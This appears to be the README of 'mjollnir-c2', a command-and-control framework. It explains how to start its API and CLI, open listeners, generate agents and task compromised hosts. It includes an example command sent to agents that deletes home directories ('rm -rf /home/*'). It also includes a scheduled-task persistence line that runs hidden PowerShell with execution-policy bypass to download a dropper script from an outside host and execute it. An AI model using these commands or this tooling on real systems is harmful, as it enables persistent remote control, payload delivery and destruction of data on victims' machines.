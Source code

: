 First construct the sqlite database:

```
$ cd mjollnir-c2-pub
$ python3
>>> from mjollnir_api import db, create_app
>>> db.create_all(app=create_app())
```

Then modify the config.json file to suit your needs.

Then start the api:

```
$ cd mjollnir-c2-pub
$ export FLASK_DEBUG=1
$ export FLASK_APP=mjollnir_api
$ flask run -h 0.0.0.0 -p 5000
```

Eventually start the cli:

```
$ cd mjollnir-c2-pub/mjollnir_cli
$ python mjollnir-cli.py
```

In order to use mjollnir-c2, you need to authenticate first. And so, you need a user and a password.
The first thing you may want to do is create a user/password:

```
Mjollnir > first_user
```

# Login/Logout into the mjollnir api

```
Mjollnir > login <username>
Mjollnir > logout
```

# Missions

First, create a mission

```
Mjollnir > mission -c <mission_name>
```

Not usefull yet, but soon you will be able to manage campaign

# Listener

There is a __listener menu__ that can be accessed using:

```
Mjollnir > listener
```

Then you have other commands:

```
Mjollnir > list (list all available listeners)
Mjollnir > use <listener_name> (use a listener based on its name)
Mjollnir > info (get some infos about the selected listener)
Mjollnir > set PORT 5555
Mjollnir > start (start the selected listener)
```

Then you could list all your started listeners using:

```
Mjollnir > listener -l
```

# Agent

There is a __agent menu__ that can be accessed using:

```
Mjollnir > agent
```

Then you have other commands:

```
Mjollnir > list (list all available agents)
Mjollnir > use <agent_name> (use an agent based on its name)
Mjollnir > set RPORT 5555
Mjollnir > generate (generate on the fly the selected agent)
```

Then you could list all your active agents using:

```
Mjollnir > agent -l
```

You could interact with an agent using:

```
Mjollnir > agent -i <agent_uid>
Mjollnir > CMD whoami; touch hello; rm -rf /home/* (read carrefully before copy-paste)
Mjollnir > group <new_group_name>
```

You will see that the task has been submitted. If the result is too long to get, you could grab it later using:

```
Mjollnir > task -r <task_uid>
```

# On registering task

There is a __on registering task menu__ that can be accessed using:

```
Mjollnir > r-task
```

This menu allows to set a task as soon as an agent registers.

For this you need the agent name. So before you would like to:

```
Mjollnir > agent
Mjollnir > list
```

Then for example set a scheduled task like:
```
CMD SCHTASKS /CREATE /SC DAILY /TN "MyTasks\my task" /TR "powershell.exe -ep bypass -w 1 -nop $e=(New-Object System.Net.WebClient).DownloadString(\\\"http://192.168.0.129:5000/publi
c/droper.ps1\\\");IEX $e" /ST 9:21
```

# Group task

It is possible to submit a task for all your agents with the group __group_name__

```
Mjollnir > g-task
```





